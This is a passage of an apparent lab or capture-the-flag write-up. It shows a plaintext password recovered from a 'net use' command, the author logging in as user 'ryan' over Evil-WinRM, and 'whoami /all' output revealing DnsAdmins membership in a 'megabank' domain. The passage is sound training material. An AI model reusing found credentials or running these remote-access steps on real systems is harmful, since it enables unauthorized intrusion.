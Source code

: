 ```powershell
+ cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

The password is valid and I logged in as ryan over winrm.

```powershell
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /all

USER INFORMATION
----------------

User Name     SID
============= ==============================================
megabank\ryan S-1-5-21-1392959593-3013219662-3596683436-1105


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```
